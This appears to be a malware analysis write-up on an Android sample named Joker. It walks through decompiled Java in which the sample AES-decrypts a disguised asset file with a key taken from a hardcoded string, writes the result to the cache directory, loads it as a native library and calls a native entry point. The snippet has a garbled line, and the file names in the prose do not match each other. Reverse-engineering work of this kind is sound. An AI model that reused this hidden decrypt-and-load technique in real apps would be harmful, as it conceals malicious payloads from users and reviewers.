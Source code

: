 - It created a temporary `file` in the cache dir and stores the content of `io/m/l/l/eibephonenumberse301.txt`.

- A new string is crated through a series of string concantenation leading to `ma17FEC2_lYuoNQ$_ToT99u_e0kINhw_Bzy`. 

- Finally the function `c.a.v(context, 'cacheDir/file', `ma17FEC2_lYuoNQ$_ToT99u_e0kINhw_Bzy`, 'cacheDir/file2');` is called.

```java
 public static void v(Context context, String str, String str2, String str3) {
    if (TextUtils.isEmpty(str3)) {
        return;
    }
    try {
        FileInputStream fileInputStream = new FileInputStream(str);
        FileOutputStream fileOutputStream = new FileOutputStream(str3);
        byte[] bytes = str2.getBytes();
        MessageDigest messageDigest = MessageDigest.getInstance("SHA-1");
        SecretKeySpec secretKeySpec = new SecretKeySpec(Arrays.copyOf(messageDigest.digest(bytes), 16), "AES");
        Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
        cipher.init(2, secretKeySpec, new IvParameterSpec(Arrays.copyOf(messageDigest.digest(bytes), 16)));
        CipherInputStream cipherInputStream = new CipherInputStream(fileInputStream, cipher);
        byte[] bArr = new byte[8];
        while (true) {
            int read = cipherInputStream.read(bArr);
            if (read == -1) {
                System.load(str3);
                JokerNat.goto2((AssetManager) context.getClass().getMethod('getAssets'), new Class[0]).invoke(context, new Object[0]));
                fileOutputStream.flush();
                fileOutputStream.close();
                cipherInputStream.close();
                return;
            }
            fileOutputStream.write(bArr, 0, read);
        }
    } catch (FileNotFoundException | UnsupportedEncodingException | IOException | IllegalAccessException | NoSuchMethodException | InvocationTargetException | InvalidAlgorithmParameterException | InvalidKeyException | NoSuchAlgorithmException | NoSuchPaddingException e2) {
        e2.printStackTrace();
    }
}
```

- Now, the contents of `cacheDir/file1` which is basically the contents of `io/m/l/l/eibephonenumberse301.txt` is read and stored to `fileInputStream`.
- The file `cacheDir/file.temp` is stored in `fileOutputStream`.
- The str2 which is `ma17FEC2_lYuoNQ$_ToT99u_e0kINhw_Bzy` is hashed with SHA-1 hash function and the first 16 bytes are used as both KEY and IV for AES-CBC decryption of `fileInputStream`.
- The result is stored in the `fileOutputStream`.
- The decrypted file is loaded to with a system call `System.load(str3);`.
- The native function `goto2` (of the just imported library) is called with `AssetManager` as an argument.
